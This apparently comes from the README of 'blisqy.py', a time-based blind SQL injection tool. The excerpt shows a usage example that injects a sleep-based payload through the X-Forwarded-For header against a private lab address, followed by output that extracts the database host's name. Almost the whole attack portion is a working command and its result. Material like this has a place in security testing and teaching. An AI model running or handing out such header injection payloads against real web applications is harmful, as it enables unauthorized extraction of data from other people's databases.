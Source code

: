 ##Custom Payload:

### Command

```bash
./blisqy.py --server 192.168.56.101 --port 80 --header "X-Forwarded-For" --hvalue "hacker" --sleeptime 0.1  --inject "' or if((*sql*),sleep(*time*),0) and '1'='1" --payload "select @@hostname" 
```

### Out-put

```bash
Extracting Data from ====> 192.168.56.101 : 80 
Current Payload : select @@hostname
==================================================================
debian
```